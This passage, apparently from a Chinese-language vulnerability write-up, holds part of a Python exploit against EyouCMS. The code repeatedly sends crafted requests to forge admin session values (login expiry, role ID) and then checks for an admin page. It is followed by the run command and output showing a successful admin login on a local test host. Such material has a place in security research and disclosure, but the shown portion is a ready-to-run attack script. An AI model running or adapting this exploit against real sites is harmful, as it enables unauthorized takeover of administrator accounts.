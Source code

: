 ```python
    def SetExpire(self):
        while True:
            res = self.Req.get(self.URL + self.Payload + self.admin_login_expire, headers=self.Headers)
            # print(res.text,end='\t\t\t\t')
            # print(self.change(res.text))
            if (time() - int(self.change(res.text), 10) < 3600):
                print("admin_login_expire[+]:\t\t\t" + res.text)
                # print(res.headers)
                break
            sleep(self.SleepTime)

    def SetRoleID(self):
        while True:
            res = self.Req.get(self.URL + self.Payload + self.admin_info_role_id, headers=self.Headers)
            if (int(self.change(res.text), 10) <= 0):
                print("admin_info.rele_id[+]:\t\t\t" + res.text)
                break
            sleep(self.SleepTime)

    def CheckLogin(self):
        res = self.Req.get(self.URL + self.AdminURL, headers=self.Headers)
        res.encoding = res.apparent_encoding
        if '更换头像' in res.text:
            print("OK")

    def run(self):
        self.SetID()
        self.SetExpire()
        self.SetRoleID()
        self.CheckLogin()


if __name__ == '__main__':
    Start = time()
    URL = 'http://192.168.10.14/'
    e = EyouCMS(URL)
    e.run()
    End = time()
    print(End - Start)
```

## 已知漏洞利用

```bash
python eyoucms2.py
```

```
admin_id[+]:                                    c8b3fb7929f9fd315ac0bdbc6728efc4
home_lang=cn; path=/, admin_lang=cn; path=/, PHPSESSID=eihfcpk6d4vgnh2ubmdlvqteb8; expires=Wed, 25-Oct-2023 12:41:05 GMT; Max-Age=3600; path=/
admin_login_expire[+]:                  8798998207bdb9d5b34a6bda8c8f0eb2
admin_info.rele_id[+]:                  a7a18766e60a7c04b2445cc9892334a2
OK
14.69934368133545
```

